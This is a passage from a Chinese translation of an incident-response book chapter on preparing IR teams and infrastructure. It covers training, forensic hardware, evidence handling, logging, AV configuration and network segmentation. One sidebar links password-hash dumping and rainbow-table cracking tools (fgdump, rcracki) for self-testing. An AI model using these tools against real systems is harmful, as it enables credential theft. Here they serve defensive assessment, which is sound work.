| 取证检查报告 | 对证据进行的分析。 | 草稿：四个工作日内
最终：六个工作日内 |
| 恶意软件分析报告 | 记录对疑似恶意软件分析的发现。 | 草稿：三个工作日内
最终：五个工作日内 |
| 入侵调查报告 | 汇总与单个事件相关的所有报告和发现，并创建高层次的执行摘要。 | 草稿：完成调查后的五个工作日内
最终：完成调查后的八个工作日内 |

#### IR团队的资源

与任何团队一样，您的IR团队需要资源才能成功。除了提供培训和创建文档等标准组织元素外，IR团队还具有独特的硬件和软件要求。即使您已经为团队建立了资源，您可能会发现阅读本节对每个区域的我们的看法很有用。

##### 培训IR团队

好的培训的重要性不言而喻。许多课程提供实践操作的事件响应培训。这些课程通常物有所值。在选择大学提供的计划通常提供最好的教育。目前提供最佳计划的大学是：
• 卡内基梅隆软件工程研究所 ([www.sei.cmu.edu](http://www.sei.cmu.edu/))
• 普渡大学技术学院 ([tech.purdue.edu](http://tech.purdue.edu/))
• 约翰霍普金斯大学信息安全研究所 ([isi.jhu.edu](http://isi.jhu.edu/))
SysAdmin、Audit、Networking 和 Security (SANS) 研究所目前是IR和计算机取证培训市场的领导者。他们有大量高质量的课程。

> 在网上找到它
SANS研究所 www.sans.org
> 

##### 为IR团队配备硬件

现代硬件解决方案使IR团队使用普通计算机系统执行取证和IR任务更加容易。主要计算机供应商提供的高端系统和一些专业的取证硬件很可能满足您的IR团队的需求。在我们工作的公司中，有两个高级位置我们进行调查工作：在野外和在办公室。我们将介绍在这些设置中对我们有用的解决方案。

###### 数据保护
在事件期间，您将处理和分析敏感数据。无论是在野外、在办公室还是在运输过程中，都必须采取适当的步骤确保数据对未经授权的人员不可访问。这样做的最有效方法是使用加密数据的解决方案。敏感数据可能存储在两个高级类别中：
• 永久，内部媒体。这包括硬盘或是计算机系统的一个永久部分。最常见的解决方案是使用软件全磁盘加密 (FDE) 产品，如Truecrypt或McAfee Endpoint Encryption。另一个选项，虽然通常有点昂贵，是使用硬件FDE，有时称为自加密驱动器 (SED) 。

- 外部媒体 通常是便携式的，包括拇指驱动器、USB驱动器和安装在外部盒子中的常规硬盘驱动器。对于这个类别有各种各样的解决方案，包括软件和硬件。常见的软件解决方案是Truecrypt。硬件解决方案包括USB和SATA的内联。

> 去网上找吧
www.truecrypt.org www.apricorn.com/products/hardware-encrypted-drives.html www.mcafee.com/us/products/endpoint-encryption.aspx
> 

> 注意:
在决定是否加密存储媒体时，请确保正确评估风险。在不安全的环境中使用的笔记本电脑或运输便携式媒体是高风险的示例。在安全的、受限制的实验室环境中使用的桌面系统是低风险的。此外，要记住，即使您在计算机上不复制敏感数据，敏感数据也可能在硬盘驱动器上找到它的位置。例如，如果您在网络共享或外部USB驱动器上访问数据，操作系统或应用程序可能会在本地硬盘驱动器上创建临时文件。如果您发现自己在寻找不使用加密的理由，那么您可能需要它。请记住，大多数CPU现在都具有提供性能提升的特殊加密指令，因此添加加密不再是性能问题。
> 

###### 野外取证
许多事件要求我们在客户现场执行取证工作。我们在这种情况下使用的主要平台是来自主要供应商的配备良好的笔记本电脑。我们选择一个与即将讨论的共享设备的专业取证硬件正确接口的笔记本电脑。在构建系统时，我们还考虑了一些额外的因素：

- 内存 通常指定为接近或达到平台支持的最大容量。
• CPU 通常在平台的高端范围内。
• I/O总线 包括eSATA、Firewire 800、USB 3.0和其他外部硬盘驱动器的高速接口。
• 屏幕大小和分辨率 物理上大和分辨率高。在14英寸的显示器上很难完成工作。
• 可携带性 当一个人在路上时，重量和尺寸非常重要。
• 保修服务 如果设备出现故障，供应商应该能够立即发送替换品或技术人员。
• 内部存储 大而快是要记住的形容词。此外，如果您能找到一个由BIOS支持的自加密驱动器，那么额外的成本是值得的。

###### 办公室数据取证
在某些事件中，我们在办公室执行取证工作。我们的客户或公司的其他员工可能会将硬盘驱动器、磁盘映像或其他相关数据运送到我们的办公室进行分析。在两个海岸，我们都有专门的实验室，配备了写入阻止器的系统，准备创建证据的工作副本。然后，根据书面证据处理政策，原始材料存储在受控区域中。我们的分析师使用虚拟环境在工作副本上执行分析。我们维护标准的检查环境模板，预配置了常见的取证工具，并为每个检查员、每个案件产生一个新的、干净的虚拟机。分析完成后，虚拟机被销毁。这种操作模式允许每个分析从一个已知状态开始，并有助于防止杂乱和资源争用。

###### 共用取证设备
在先前提到的两个运营地点，IR团队或分析师组使用一组共享资源，除了他们分配的工作站。首先，我们需要专门的取证相关硬件。团队应该有几个完整的写入阻止套件。有版本可用，允许检查和复制许多接口，包括PATA、SATA、SCSI和SAS。我们采取的方法是在办公室保持这些硬件的池，并根据需要提供项目。在第8章中，我们将更详细地讨论这些类别的专门取证硬件：
• 独立的磁盘复制和成像系统
• 适用于您预计遇到的所有媒体接口类型的写入阻止器
• 移动设备采集系统
• 各种电缆和适配器
除了专门的取证硬件外，我们还保有以下物品的健康存货：
• 大型外部硬盘驱动器，用于存储证据和管理数据的工作副本
• 用于记录证据的数码相机
• 空白CD和DVD
• 网络交换机和电缆
• 电源插排和电缆
• I/O总线电缆——Firewire、eSATA、USB
• 计算机维护工具，如螺丝刀、Torx比特、spudgers和其他专门的开箱工具。

###### 网络监控平台

我们使用两个主要平台进行网络监控。 对于临时监控，我们使用的笔记本电脑系统的规格与用于现场取证工作的笔记本电脑系统的规格非常相似。 其主要优点是平台是便携式的，并带有内置UPS。 然而，对于大多数安装，我们使用1U机架安装系统，具有高端CPU，相当数量的内存（发布时为12-16GB）和足以在我们监视的连接的80％线速率下保持传入数据一段合理时间的存储容量。 这些监视平台通常配备多端口网络接口卡，允许保留一个用于管理接口，其余端口用于监视。 在某些调查中，我们还包括用于监视光纤和多千兆铜链路的接口。

监控高利用率的网络连接对大多数监视平台来说可能是一项挑战，除非开发自定义驱动程序和存储方案。 然而，对于大多数环境来说，组织可以通过最少的FreeBSD或Linux安装进行管理。 过去，一个人不得不与内核补丁和系统调优，IDS系统配置，控制台安装（加上体验可管理的分析体验所需的多种库）以及签名管理等问题搏斗。 三个我们下面链接到的项目中的几个项目使得可靠监视平台的部署更加容易。 网络监视将在第9章中详细讨论。

> 去互联网上找吧
Security Onion securityonion.blogspot.com
Network Security Toolkit networksecuritytoolkit.org
Easy-IDS skynet-solutions.net
> 

##### IR团队的软件

在本节中，我们将涵盖IR团队需要执行其工作的基本软件的一般类别和功能。关于使用特定工具的详细信息在第11章到第16章的数据分析中进行了讨论。

###### 我们使用什么软件？

我们与之合作的大多数组织都会问我们使用什么类型的IR和取证软件以及为什么。 他们通常会问我们是否使用任何免费或开源工具，以及是否使用任何商业工具。 答案是我们同时使用免费和商业软件，有些是开源的，有些是闭源的。 我们不会支持特定的工具，我们更愿意解释我们选择何种工具的原因。

在考虑我们使用哪些解决方案时，通常只有时间才是最重要的因素——如果一切都相等，我们选择可以在最短时间内完成工作的工具。我们考虑与该工具相关的准备、执行和报告。时间之所以对我们最为重要，有两个主要原因——它使我们能够更快地找出问题并解决犯罪（最小化潜在的损失），而我们的客户按小时支付我们的费用。对于您的组织来说，时间可能也是一个重要因素，但还可能有其他考虑因素，比如您的预算。
我们还喜欢有选择——因为有时候一个工具可能在某种情况下无法工作。因此，我们通常至少有两个或更多可以执行相同（或非常相似）功能的工具。我们维护一个顾问可使用的当前可接受工具列表。然而，在将工具放入列表之前，我们会进行一些测试。即使其他组织可能已经测试了该工具，您在自己的环境中测试它也是个好主意。

> “法医学上可靠”的软件和证据的可接受性
您可能会听到有人说，工具必须是“法医学上可靠的”，并且其在这方面的状态会影响到该工具在法庭上的任何发现是否可接受。但是，“法医学上可靠的”没有严格的定义，通常是法官在法庭上决定证据的可接受性。我们鼓励您的IR团队考虑这里概述的法律案例中提到的因素。
在1923年，联邦法院制定了一组名为Frye测试的标准。最近，在1993年，美国最高法院发表了一项意见，重新制定了联邦案件中科学证据的可接受性所需的标准。（请注意，各州有自由采用Frye、Dow或他们自己的案例法规定的标准。）这个案例，Daubert v. Merrell Dow Pharmaceuticals，509 U.S. 579 (1993)，将焦点从一项普遍接受测试转移到了一项“可靠性和相关性”测试。法官对专家证言的接纳结果导致创建了一系列说明性因素，这些因素在可靠性调查期间被记在心中。确定科学技术的可靠性应用的四个因素如下：
• 科学理论或技术是否经过经验测试？
• 科学理论或技术是否经过同行评审和出版？
• 是否存在已知或潜在的错误率？是否存在控制技术操作的标准？
• 该技术在当前案件中是否存在一定程度的一致性度量？
• 该技术是否在相关文献中有所体现？
• 该专家是否拥有足够的领域资格认证？
• 该使用的技术与其他类似方法有何不同？
> 

###### **IR团队使用的软件类型**
我们在调查期间使用的软件通常分为八个类别。 您的IR团队应该对每个领域的存货进行清点，并根据我们在此处讨论的一些标准研究是否需要任何其他工具：

- 引导磁盘
此类别包括您可以引导并执行有用的IR或取证任务的“实时”媒体（CD或USB）。 例如，Backtrack、CAINE和Helix项目都提供了可引导的环境，非常适合IR或取证任务。

> 去互联网上找吧
BackTrack www.backtrack-linux.org
CAINE www.caine-live.net
Helix www.e-fense.com
> 
- 操作系统
IR团队应该熟悉组织内使用的每个操作系统。我们建议获取每个操作系统的安装介质，并创建具有可还原快照的虚拟机。这对于学习非常有帮助，但您可能需要执行测试或其他实验以开发或确认准确的程序。
- 磁盘成像工具
维护一个由团队授权的成像工具清单。要了解应该和不应该在此清单中的内容，请查看NIST计算机取证工具测试网站www.cftt.nist.gov.在第8章中将详细讨论磁盘成像。确保IT人员和其他一线人员了解您的工具和程序。
- 内存捕获和分析
与磁盘成像类似，您应该有多个可靠且经过测试的内存捕获工具。请记住您的环境中不同的操作系统，并为每个环境测试解决方案。内存分析将在第12章到第14章中详细讨论。
- 实时响应捕获和分析
您应该为组织中使用的每个操作系统创建和测试实时响应工具包。执行实时响应的过程和我们喜欢的工具将在第7章中详细讨论。
- 指标创建和搜索工具
在调查过程中，您将需要工具来帮助您创建和搜索威胁指标（IOCs）。第2章和第5章涵盖了此主题。
- 取证检查套件
取证检查套件在单个软件包中提供全面的功能集。这些套件通常专注于分析磁盘映像，提供解释数据格式的能力，并允许调查人员搜索相关信息。我们不在本书中涵盖使用任何具体的检查套件。相反，我们讨论了您需要有效执行检查的基础知识和方法。
- 日志分析工具
在大多数调查中，团队面临着检查大量日志文件的情况。一种常见的日志格式是分隔符明文文件。在这些情况下，我们使用可以操作明文的任何工具进行分析。但是，有时格式是专有的，我们需要一个工具来读取或转换数据。通常，日志数据的数量是巨大的——我们参与了许多多TB档案的案件。如果您预计在您的组织中遇到相同的情况，则明智地识别可以处理这种“大数据”的日志工具。

##### **文档**
在本节中，文档一词指的是IR团队内的政策、程序、知识管理或工作流程。本节中涵盖的领域是我们认为所有IR团队都应该解决的两个最重要的领域。还有许多其他有价值的主题，但是您的IR团队必须评估哪些是最合适的文档。

###### **证据处理**
证据是任何调查的发现来源，必须得到适当处理。处理证据时必须注意细节并严格遵守规定。如果证据的完整性受到质疑，调查结果可能对您的组织不再有价值。为了防止这种情况发生，我们建议您实施适当的证据处理政策和程序。通常，它们将包括关于证据收集、文档、存储和出货的指导。

至少，您需要创建强制执行完整性并提供身份验证和验证的程序。通过我们称之为积极控制的方式来实现完整性。积极控制意味着证据必须始终由授权人员直接监督或在受控环境或容器（例如保险柜）中保护。在运输证据时，必须通过可追溯的承运人发送，并打包以使其防篡改和防护元素。身份验证是通过文档完成的，包括证据标记和监管链。我们在附录B中提供了一个样本证据标记。验证是通过密码校验和（例如MD5）完成的，该校验和在收集时计算，并可在任何时候验证。验证证明证据从收集时起没有改变。您可以在以下网站上了解有关证据规则和美国司法部证据收集指南的更多信息：

> 去互联网上找吧
www.justice.gov/criminal/cybercrime/docs/ssmanual2009.pdf www.law.cornell.edu/rules/fre
> 

###### 内部知识库
随着IR团队进行调查并与组织的其他部门进行互动，他们将积累应该记录在中央位置的知识。一些信息可能仅与单个事件相关，并且可以存储在IR团队使用的工单或案件管理系统中。其他信息可能与整个组织有关，并应记录在IR团队维护的知识库中。知识库应逻辑组织和可搜索，以便团队可以有效地定位相关信息。

### 为事件响应准备基础设施

多年来，我们已经应对了数百起事件，从计算机入侵到欺诈调查。虽然调查的证据要素不同，但行动线索和相关数据的来源仍然相当一致，以及用于提取和分析这些数据的方法。无论调查的性质如何，IR团队都应该能够像在单台计算机上一样轻松地获取数据并搜索企业中的相关材料。因此，良好的信息安全实践和变更管理程序促进了快速响应和便捷的纠正过程。
在我们的职业生涯中，我们注意到组织经常面临的许多挑战。它们大体上分为两类：计算设备（例如服务器、桌面和笔记本电脑）和网络。我们将首先详细介绍计算设备，然后再介绍网络配置。在这两个类别中，我们将涵盖许多组织面临的前四个领域。以下是这些领域的概述：
• 计算设备配置
• 资产管理
• 进行调查
• 仪器设备
• 改进安全的其他步骤
• 网络配置
• 网络分段和访问控制
• 文档
• 仪器设备
• 网络服务

#### 计算设备配置

您企业中的计算设备，如服务器、桌面和笔记本电脑，承载了与调查相关的大部分证据，这些系统的配置方式可能会极大地影响结果。如果没有正确的证据，基本的问题就无法回答。因此，您的组织应该以便于有效调查的方式配置所有系统。许多组织采取的常见方法是将注意力集中在他们认为重要的系统上。然而，这种方法假定攻击者将执行可以在关键系统上检测到的操作。根据我们的经验，攻击者通常使用不相关的系统作为其操作的基础，创建了许多非关键系统上的数百个工件。攻击者还可能使用有效凭据以符合正常活动的方式访问关键系统。如果这些工件没有被捕获和保存，许多关于事件的问题将无法回答。为了确保您涵盖了适用于组织的系统配置的所有方面，请考虑以下两个步骤：

1. 了解你所拥有的。保护你不知道存在的系统是相当困难的。您的组织应该考虑实施全面的资产管理系统。此外，对实际生产情况进行调查，无论从系统还是应用程序的角度来看，都可以揭示需要进一步规划的环境细节。
2. 改进和增强。在确定要使用的系统和技术后，您应该确保它们以有助于调查的方式进行配置。日志设置、防病毒和HIPS配置、调查工具部署等许多其他增强功能都需要完成。请记住组织政策和法律问题，因为隐私或其他法律可能会影响您可以或不可以做的事情。

> 注：
我们不详细介绍主机硬化和其他安全姿态主题。许多其他资源，例如Defense Information Systems Agency（DISA）安全技术实施指南（STIGs），可在iase.disa.mil/stigs找到，提供有关这些主题的详细信息。我们的重点是对调查产生最大影响的领域。
> 

##### 资产管理

当计算机安全专业人士考虑为事件做好准备的重要方法时，资产管理通常不是其中之一。但是想象一下这种情况：您发现攻击者已针对您组织内的某个部门。该部门正在研究对您组织提供的新服务至关重要的技术。自然反应可能是检查该部门的系统，以确保它们没有被攻击。或者，您可能想为该部门实施一些额外的安全协议。有效实现这两个目标都需要您确切知道哪些系统属于该部门以及它们的位置。

- 在调查的背景下，有几个重要的资产管理考虑因素。尽管将所有这些信息放在一个地方更方便，但我们发现大多数组织在不同的位置有关于系统的不同类别的信息。关键是要知道何时需要访问信息。您应该评估您的组织提供以下系统信息的能力：
- 分配日期 想象一下这种情况：您发现两个月前在特定系统上发生了可疑活动的证据。您在资产管理系统中查找主机名，并发现它是上周被替换的服务器。根据这些信息，您知道当前系统不会包含与两个月前的活动相关的证据。在这种情况下，获得证据的最佳机会是跟踪旧服务器，资产管理系统也可以提供帮助。
- 所有权 许多组织外包服务。如果系统实际上不是您的组织拥有的，这可能会影响您的响应方式。清单应清楚地表明谁拥有硬件。
- 业务部门 知道所属组织中的业务部门可以帮助调查人员建立上下文并做出更好的调查决策。例如，受到威胁的系统是数据库服务器的事实可能重要，也可能不重要。如果您还知道数据库服务器是处理受联邦监管的数据的业务部门的一部分，那么这个事实将改变您的反应方式。
- 物理位置 如果您需要获取硬盘映像或采取其他需要物理访问系统的操作，则需要知道其位置。我们并不建议位置信息是实时的，如笔记本电脑的情况，只是系统的主要位置已记录。
- 联系信息 协调访问请求，获得物理访问权限并通知受影响的利益相关者需要列出与系统相关联的联系人列表。理想情况下，列出了主要联系人和次要联系人。对于服务器，包括系统管理员、应用程序管理员和业务联系点是有帮助的。对于终端用户系统，包括主要用户及其主管。
- 角色或服务 调查人员了解系统执行的角色很重要。我们建议您尽可能详细地列出——仅列出“服务器”并不是非常描述性的。什么样的服务器？根据角色，您将根据情况作出不同的决策，联系不同的人，以及对问题放置多少紧迫性。例如，在笔记本电脑中执行硬盘的取证映像比在连接到生产数据库服务器的16TB SAN驱动器中执行更为简单。尽早知道这一点将帮助您做出适当的反应。
- 网络配置
跟踪的网络配置应包括每个接口的主机名、IP配置和MAC地址。如果IP地址是通过DHCP确定的，则通常不会列出IP本身。但是，如果IP地址是静态分配的，则将其放入资产管理系统中会很有用。

##### 进行调查

组织的标准系统构建、软件清单和其他文档很少提供整个IT基础架构的完整图片。在调查过程中，我们发现组织之前不知道有关软件、硬件或操作系统很常见。因为在调查过程中我们不喜欢出现意外，所以我们鼓励组织提前寻找它们。我们建议进行实地调查（自动或其他方式）以收集和验证以下信息。确保为组织中使用的每个项目包括制造商、产品和版本信息。

- 操作系统（Windows、Mac OS X、Linux、HP-UX）
• 硬件（笔记本电脑、桌面、服务器、移动设备）
• 网络技术（交换机、无线接入点、防火墙、IDS、代理）
• 网络图示
• 安全软件（AV、HIPS、白名单）
• IT管理软件（补丁、配置和资产管理、性能监控）
• 终端应用程序（文字处理、图形、工程、互联网浏览器）
• 业务应用程序（时间记录、文档管理、支付处理）

> 密码
对于许多组织来说，大量凭据更改（例如重置密码）通常是一项特别困难的任务。作为调查的一部分，您可能会发现攻击者能够确定一个或多个帐户的密码。该发现的纠正步骤是更改受影响的凭据。但是，我们经常发现，攻击者从Windows域控制器中获得数百个，甚至数千个密码哈希转储。通常，获得的密码哈希包括服务帐户——这些帐户通常被硬编码到各种后端系统和应用程序中。还可能存在特定应用程序的密码，例如专用财务系统的密码。最后，一些组织在所有系统上使用相同的本地管理员帐户。除非他们制定了一个为所有用户和服务推出更改的计划，否则这将给IT部门带来巨大的噩梦。这个过程通常是与IT帮助台人员的帮助下安排的，他们将承担可能数千个困惑用户的负担。此纠正步骤的成功重要性不言而喻。一个遗漏的系统或管理员凭据，所有投入到这个过程中的努力都可能会付诸东流。
> 

> 注：
使用彩虹表之后，任何长度小于15个字符的Windows Lanman哈希或长度小于9个字符的NTLM哈希都应被视为已被攻击者攻破。我们经常与认为攻击者不可能快速确定他们的Windows密码的组织合作，直到我们在五分钟内转储密码哈希并显示纯文本密码（对于NTLM，需要几个小时）。使用下面链接的工具自行检查。
> 

> 在网络上获取
密码哈希转储工具fgdumpwww.foofus.net/~fizzgig/fgdump免费彩虹表www.freerainbowtables.com
彩虹表破解工具rcracki_mtsourceforge.net/projects/rcracki
> 

###### 仪器

在考虑如何改进系统配置以便于调查时，请考虑两个初始阶段：开发和跟踪线索。可以记录、捕获或以其他方式记录什么内容以帮助确定受影响系统上发生了什么？考虑您已经使用的仪器机制——软件计量、性能监视和AV或基于主机的防火墙——以及您如何改进它们的配置。然后再看看新领域，例如调查工具。您如何接触到一个系统并向它提问：是否存在该文件？是否存在某个注册表键？

**事件、错误和访问日志**
在我们进行的几乎每一项调查中，日志文件都是一种宝贵的资源。您可以通过确保记录相关事件并且它们被保留适当的时间来帮助调查成功。集中式日志系统也是有效调查的主要贡献者。但是，集中式日志也给组织带来了许多挑战。您如何收集日志数据，它在哪里存储？您保留数据的时间有多长？所有系统都在同一时区，以便事件容易相关联吗？在本节中，我们将介绍一些日志解决方案和系统配置选项，这些选项将帮助您保留对调查有用的信息。
您的组织可能已经拥有集中式日志解决方案。如果是这样，那太好了！如果您的组织没有集中式日志解决方案，则应考虑需要什么才能实现这一目标。选项范围从免费或开源解决方案（如Splunk、ELSA、InterSect Alliance的Snare和NTSyslog）到高端商业安全信息和事件管理（SIEM）解决方案（如ArcSight和RSA的enVision）。您的组织将不得不决定什么是最合适的。

接下来你需要做出决策的一个领域是保留。一般来说，我们建议大多数组织至少保留一年的日志数据。在某些环境中，事件的数量如此之多，以至于很难将这些事件保留超过几周。在这种情况下，您应该检查日志数据，以确定可以保留更长时间的哪些信息子集。大多数违规行为都不会在几周甚至几个月或几年内被发现。此外，请记住，日志记录可能受到您所在行业的监管。例如，PCI数据安全标准（DSS）v2.0要求所有落在PCI数据处理环境内的资产保留一年的保留期。在其他情况下，您的法律顾问可能会希望将日志记录限制在非常短的时间内。确保他们的偏好与未来调查的潜在风险相比较。
最后，您将需要做出关于何时记录的决策。有两个主要的日志记录源需要考虑：操作系统和应用程序。在我们进行的大多数调查中，我们发现组织在操作系统日志记录方面配置不当，并且经常完全忽略应用程序日志记录。首先，让我们来讨论操作系统。
大多数环境中常见的两个操作系统是Microsoft Windows和类Unix操作系统（如Linux）。许多Windows的默认安装不启用足够的审计以在调查中有用。我们建议在您组织的基线系统映像中配置以下最小设置：
• 增加审计以包括登录和注销事件以及用户和组管理事件。
• 在可行的情况下，增加审计以包括进程的创建和终止。
• 将每个事件日志的本地存储器增加到至少100MB（最理想的是500MB）。
• 将所有事件转发到集中式日志系统。

> 在网络上获取
Snare for Windows www.intersectalliance.com/projects/BackLogNT
基于Unix的系统往往记录了有关调查的更多细节，但有时会受到有限的保留期的影响。我们建议在Unix下检查以下设置：
• 在可行的情况下，启用进程账户
• 增加本地存储
• 将所有事件转发到集中式日志系统
> 

 

在应用方面，对于调查最有用的一些常见日志是Web服务器、代理和防火墙日志。但许多其他日志也很重要，例如数据库、电子邮件、DNS（查询和响应）、DHCP租赁分配（这样您就可以基于IP地址追踪系统），防火墙、杀毒软件、IPS/IDS和自定义应用程序日志。您应该检查组织内的每个业务流程或服务，并了解日志记录保留的位置以及是否可以将存储集中化。在某些情况下，您可能发现记录没有打开。例如，我们发现DNS查询日志通常被忽视。
杀毒软件和主机入侵防止系统市场上有许多杀毒软件（AV）和主机入侵防止系统（HIPS）解决方案。因为它们会随时间而改变，所以在这里谈论具体的解决方案并没有太大意义。从事件响应的角度来看，更重要的是它们的配置以及它们可以提供的有益于调查的信息。让我们走过几个场景，以说明我们的意思。
几乎每个组织都部署了AV或HIPS解决方案。我们发现从多个供应商购买的免费产品到昂贵的解决方案。我们不会涉及这些解决方案在实际上防止感染方面的有效性，但重要的是当检测到某些东西时，您对发生的控制。例如，如果该解决方案不将事件记录到中央服务器，则无法查看整个组织中的检测结果。此外，您组织中的解决方案可能设置为在检测到恶意软件时删除它。尽管这似乎是一个好的做法，但也会破坏证据。将恶意软件隔离到一个中央位置，可以让您分析恶意软件，生成威胁指标，甚至确定它被配置为与哪些IP地址进行通信。

另一个问题是向 AV 供应商发送恶意软件。一些解决方案可以配置为自动将可疑的二进制文件传输给供应商进行分析。一旦发生这种情况，您就可能失去了一些控制。定向的恶意软件可能包含您的环境中独有的信息，例如代理设置甚至凭据。恶意软件还可能包含揭示攻击性质的信息。最后，供应商可能会发布签名更新，在您准备好之前清除恶意软件——这听起来可能有点奇怪，但我们将在第15章中详细介绍这个主题。小心提交恶意软件进行分析。当您提交恶意软件时，大多数站点都与主要 AV 供应商签订了协议，并立即收到您提供的样本。

底线是，现有的 AV 或 HIPS 解决方案应该被配置为协助您的调查，而不是阻止它。它们应该为事件、捕获的文件或其他相关内容提供集中的存储和查询功能。并且它们应该是可配置的，以便您在检测到某些内容时可以控制采取的行动。

**调查工具**
能够联系环境内的系统并向它们提出与您正在跟踪的线索相关的问题对于调查至关重要。当您在调查中发现某些独特的东西（例如恶意软件、攻击者工具或其他任何东西）时，您的下一个问题应该是：“我的环境中有哪些其他系统拥有此工件？”对于该问题的准确回答将有助于您正确地确定事件范围。

理想情况下，您的组织将调查工具作为每个系统（服务器、笔记本电脑和桌面电脑）的标准构建的一部分。市场上有许多解决方案，包括 AccessData Enterprise、Guidance Software EnCase Enterprise 和 Mandiant Intelligent Response。您还可以使用许多标准系统管理和编程工具（例如 shell 脚本和 Windows 管理工具）创建自己的解决方案。您的组织将需要研究市场并确定最适合您情况的工具。

##### 改善安全的其他步骤

本节列出了许多可以采取的步骤，这些步骤将改善单个系统的整体安全状况。很有可能，这些步骤也会对调查产生积极影响。但是，因为它们与为事件做准备没有直接关系，所以我们不会详细介绍它们：
• 为操作系统和应用程序建立打补丁解决方案。
• 考虑使用双因素身份验证，并强制执行良好的密码复杂性。
• 删除用户的本地管理员访问权限。


- 确保系统部署了防火墙和杀毒软件解决方案，并进行适当的配置。
• 退役生命周期结束的系统。
• 建立配置管理系统。
• 考虑应用程序白名单。
• 符合 DISA STIGs：iase.disa.mil/stigs。
• 遵循 NSA IA 缓解指南：[www.nsa.gov/ia/mitigation_guidance/](http://www.nsa.gov/ia/mitigation_guidance/) index.shtml。

#### 网络配置

现在我们已经讨论了第一个领域——计算设备，让我们来看看第二个领域——网络配置。有许多指南和出版物介绍了设计安全网络环境的过程。在这个相对较短的部分中，我们不会涉及所有的主题；然而，一些常见的做法可以极大地增强 IR 团队执行调查的能力。回顾一下，我们将在本节讨论的四个主题是
• 网络分割和控制
• 文档
• 仪器设备
• 网络服务
为了帮助说明本节中描述的方法，我们将引用下面这个虚构组织的简化网络图。这个图表包括了可能很难在现有网络中实现的设计。尽管如此，我们的许多客户都依赖这些设计来保障安全和事件响应。

> 目击证人报告
很少有组织认为他们有“重新开始”的奢侈，重新设计他们的网络。即使小公司从一个良好的设计计划开始，增长、合并和收购增加了复杂性，需要仔细规划。我们与合作过的大多数组织发现，在事件发生后，任何事情都是可能的，管理层愿意支持对基础架构进行全面的更改。作为计算机入侵的一点银边，大多数组织最终会比事件发生前处于更好的境地。那些没有的人通常在几周内重新受到感染。
> 

在图3-1中，我们有一个良好的、分割的网络示例。我们的虚构公司有四个内部子组织：财务、工程、销售和IT支持。每个子组织都可以访问自己的资源（服务器）和企业范围内的资源，如“内部服务”区域。子组织之间似乎没有明显的连接，而且防火墙之间的连接可能有些奇怪。我们将在下一节中讨论这个问题。

> 在网络上获取
NIST计算机安全资源中心csrc.nist.gov
ISO 27001安全iso27001security.com
> 

##### 网络分割和访问控制

常见的信息安全最佳实践是根据段中处理的信息或其中系统或用户的角色对网络进行分割。控制网络段之间的流量允许组织监视和保护重要资源和通信。在调查期间，这些控件可以极大地帮助确定和隔离受损系统。

在图3-1所示的网络图中，我们将子组织分割成自己的区域，并使用过滤器仅允许必要的业务操作流量。例如，财务区域的系统有一组运行ERP会计应用程序的服务器。此集合处理的信息需要高度保密，因为其丢失可能会影响公司的财务状况，同时会暴露客户和供应商。严格的控制将决定最小化本地（区域内）和远程（其他子组织）的流量，仅限于必要的流量，并且所有访问都应该得到适当的身份验证（在上一节中，我们注意到特权帐户或对敏感数据的用户级访问的双因素身份验证的重要性）。同样，工程具有其自己的服务器资源，必须与其他子组织隔离，特别是销售。


许多基本的访问控制在网络图上很难表示。在这个层次上，有三个控制没有被表示但是被认为是基本的：
• 子组织级别的流量过滤 进入过滤及其常常被忽视的对应物——出口过滤，是阻止入侵者跨越企业访问的绝对必要措施。考虑实际需要的资源，锁定边界，并利用变更控制和定期审核以确保随时间的一致性。
• Web、聊天和文件传输代理 外部资源的流量应该经过能够监视和过滤的代理。这是对政策允许的流量的重要防线。作为奖励，大多数代理都可以作为缓存服务器，潜在地降低站点的带宽需求。如果代理能够记录和保存通信，您的合规和法律人员也将从这个控制中获益。
• 穿越重要边界的连接需要双因素身份验证 大多数组织都知道所有来自互联网的 VPN 流量应该使用双因素凭据进行控制。不幸的是，很少有组织将这些限制应用于内部资源。服务器、管理工作站和“跳转框”也应该需要双因素身份验证。我们将在下一节中讨论跳转框的概念。

> 注意：
对于 Microsoft RPC（远程过程调用）协议的过于宽松的规则集要保持警惕。许多组织将在其内部防火墙上创建一个别名，其中包括标准 Windows 端口。为了“让事情正常工作”，允许并应用了端口 135、137、138、139、445 和少量其他端口作为一般规则，将安全性推向了端点。请记住，一旦允许访问简单文件共享，您就会获得通过这些相同 RPC 端口的远程管理（psexec）作为意外的奖励。由于 RPC 设计不佳，授予文件共享访问权不限于简单的挂载点，攻击者可以在一个本来被隔离的网络中自由传播。
> 

在图3-2中，我们扩展了财务子组织，显示了财务区域内受保护的飞地内的简单ERP（企业资源规划）配置。飞地（Finance Servers）的配置允许提供服务所需的最小流量。同样，虽然为了清晰起见省略了一些细节（例如，从飞地到企业双因素服务器的身份验证流量），但出飞地和财务组的流量也是受控的。请注意，向下延伸的垂直线是多层交换机的延伸，代表两个网络之间的明确分隔。这可以通过单个机箱中的VLAN和过滤器或通过多个交换机实现。

图3-2显示了三个基于网络的控件，有助于限制暴露并在发生妥协的情况下促进数据收集：网络隔离、对管理功能的有限访问以及集中的监控机会。
访问控制
如与更高级别的图表所讨论的，区域之间的流量受到仔细的控制。在财务组中工作的人员对外部网络的访问受到限制。 “允许的流量”可能包括到LDAP或Active Directory服务器的身份验证流量，到公司邮件服务器的IMAPS或类似流量以及到公司代理和其他内部站点的Web流量。他们也只能有限地访问其部门内的服务器。在这个示例中，所有业务需求都可以通过HTTPS访问ERP会计系统来满足，并且过滤器仅允许这样做。入站流量（未显示）将被限制为由IT运行的系统管理服务器的访问。

在财务服务器区域内，流量同样受到限制。出口规则类似于财务用户区域，具有明确的目的地定义。但是请注意，从服务器出站的Web流量从未被允许，除非特定的应用程序需要它。入站规则允许一般员工访问用于输入时间和会计信息的Web服务器。但是，系统管理员的访问受到不同的限制。在这个示例中，管理工作站（需要双因素身份验证）是唯一可以连接到环境中进行系统管理目的的连接。如果系统管理员需要在数据库服务器上执行维护操作，则必须首先登录到管理工作站上的交互式桌面会话（或“跳转框”），然后从那里连接到Finance数据库服务器。这极大地简化了过滤器的创建和审计，因为允许作为入站连接源和目的地的系统和端口数量最少。尽管我们从不在端点上放置重要信任，但基于主机的防火墙也是“防御性深度”方法的一部分。


最后，IR团队可以轻松监视由分配给财务组的单个过滤实体控制的所有流量。大多数情况下，传感器首先放置在公司网络的边缘，收集流量进行分析，并在匹配已知签名时向团队发出警报。当团队对监控解决方案感到足够满意时，将范围扩展到包括部门间流量可以显示企业内的横向移动。

> 注意：
